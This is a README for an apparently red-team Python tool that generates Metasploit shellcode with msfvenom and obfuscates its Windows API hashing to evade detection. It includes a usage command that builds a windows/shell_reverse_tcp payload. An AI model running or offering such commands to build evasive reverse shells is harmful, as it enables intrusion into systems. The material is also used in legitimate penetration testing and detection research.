 # shencode
automation script for creating and obfuscating metasploit shellcode

![shencode-1.png](shencode-1.png)

## Features

### Version 0.1

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Save modified shellcode to disk

## ToDo

- choose between building a shellcode and use an existing one
- write shellcode in a template file (.cpp)
- automatical compile feature
- export shellcode to different formats (e.g. c++, c#, hex...)
- Use PATH for better msfvenom integration
- object oriented rewrite for better module integration

## How to use

Please change the metasploit path in line 166 that it fits your needs. This will be fixed in the future.

`python shencode.py --payload windows/shell_reverse_tcp --arg1 "LHOST=127.0.0.1" --arg2 "LPORT=4455" --key 128 --verbose`

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
